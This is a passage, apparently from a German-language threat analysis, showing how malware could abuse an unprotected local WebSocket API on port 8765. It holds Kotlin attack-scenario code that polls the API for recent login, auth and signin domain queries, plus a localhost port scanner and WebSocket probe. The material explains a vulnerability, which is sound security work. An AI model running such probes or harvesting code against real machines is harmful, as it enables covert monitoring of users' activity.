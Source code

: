 ```kotlin
    // (würde custom command brauchen)
}
```

### **Scenario 3: Credential Harvesting**
```kotlin
// Permanentes Monitoring im Background:
launch {
    while (true) {
        client.webSocket("ws://127.0.0.1:8765/api") {
            send(Frame.Text("""{"action": "get_recent_queries"}"""))
            
            val queries = receiveQueries()
            
            queries.filter { it.domain.contains("login") || 
                            it.domain.contains("auth") ||
                            it.domain.contains("signin") }
                   .forEach { logSuspiciousActivity(it) }
        }
        delay(5000)
    }
}
```

##  Wie Malware das findet:

```kotlin
// Port Scanner in Malware:
fun findLocalServices(): List<Int> {
    val openPorts = mutableListOf<Int>()
    
    (8000..9000).forEach { port ->
        try {
            val socket = Socket("127.0.0.1", port)
            socket.close()
            openPorts.add(port)
        } catch (e: Exception) {
            // Port closed
        }
    }
    
    return openPorts
}

// Dann WebSocket Handshake versuchen:
fun probeWebSocket(port: Int): Boolean {
    try {
        val client = HttpClient(CIO) { install(WebSockets) }
        client.webSocket("ws://127.0.0.1:$port/api") {
            // Success! Found unprotected WS
            return true
        }
    } catch (e: Exception) {
        return false
    }
}
```
